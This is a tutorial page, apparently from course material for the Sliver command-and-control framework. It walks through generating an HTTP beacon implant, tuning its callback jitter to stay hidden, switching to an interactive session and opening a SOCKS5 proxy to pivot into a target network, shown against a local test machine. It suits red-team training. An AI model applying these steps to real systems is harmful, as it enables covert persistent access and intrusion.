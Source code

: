 # This course is intended for the 1.6 version of Sliver, which is not yet published

Sliver implants support two types of connections, sessions and beacons.

Sessions use long-polling connections, which means they use a single TCP connection which is constantly open. Beacons on the other hand call back periodically, and will sleep when not active which can help keep their presence hidden.

Typically during an engagement you will want to deploy a beacon on the target system, and switch to a session while doing more active enumeration activities.

Let’s start with generating and deploying a beacon using `http`.

```asciinema
{"src": "/asciinema/beacon_generation.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

You can see the beacon callback times either in the `info` command or using `beacons watch`.

```bash
[server] sliver > beacons watch

 ID         Name            Transport   Username          Operating System   Last Check-In   Next Check-In
========== =============== =========== ================= ================== =============== ===============
 942c647c   TIRED_GIRAFFE   http(s)     tester   darwin/amd64       52s             12s

```

Beacon callback times and jitter can be set either during generation or on the fly using the `reconfig` command.

The example below sets the callback time to 5s with a 1s jitter.

```bash
[server] sliver (TIRED_GIRAFFE) > reconfig -i 5s -j 1s

[*] Tasked beacon TIRED_GIRAFFE (b8aa6fd8)

[+] TIRED_GIRAFFE completed task b8aa6fd8

[*] Reconfigured beacon

[server] sliver (TIRED_GIRAFFE) > info

         Beacon ID: 942c647c-8409-4877-9fa2-b84a7f27ad45
              Name: TIRED_GIRAFFE
          Hostname: tester.local
              UUID: c6de1a44-016a-5fbe-b76a-da56af41316d
          Username: tester
               UID: 501
               GID: 20
               PID: 55879
                OS: darwin
           Version:
            Locale:
              Arch: amd64
         Active C2: https://127.0.0.1
    Remote Address: 127.0.0.1:51803
         Proxy URL:
          Interval: 1m0s
            Jitter: 30s
     First Contact: Wed Apr 19 01:14:21 CEST 2023 (10m30s ago)
      Last Checkin: Wed Apr 19 01:18:20 CEST 2023 (6m31s ago)
      Next Checkin: Wed Apr 19 01:19:46 CEST 2023 (5m5s ago)
```

Commands issued for beacons can be viewed using `tasks`, the task state will indicate whether the command has completed or not.  The results of previously run tasks can be viewed using `tasks fetch`.

```asciinema
{"src": "/asciinema/beacon_tasks.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Session can be spun up using the `interactive` command.

```asciinema
{"src": "/asciinema/beacon_interractive.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Because of the differences between sessions and beacons, certain commands like `upload` or `download` are slower on beacons due to the callback time. Others such as socks5 are not supported and only allowed for sessions. As a rule of thumb anything requiring higher network bandwidth should be run from a session.

Let’s switch to our newly created session and spin-up a `socks5` proxy.

```bash

[server] sliver (TIRED_GIRAFFE) > use

? Select a session or beacon: SESSION  131a60b9  TIRED_GIRAFFE  127.0.0.1:51969  tester.local  tester  darwin/amd64
[*] Active session TIRED_GIRAFFE (131a60b9-db4f-4913-9064-18a17a0f09ab)

[server] sliver (TIRED_GIRAFFE) > socks5 start

[*] Started SOCKS5 127.0.0.1 1081
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol
```

You can then point your browser to port 1081 to tunnel traffic through the implant to your target’s local network.

Try out some of the previous commands and compare behaviour on beacons and sessions. Once you are done, you should remember to close your session using the `close` command.
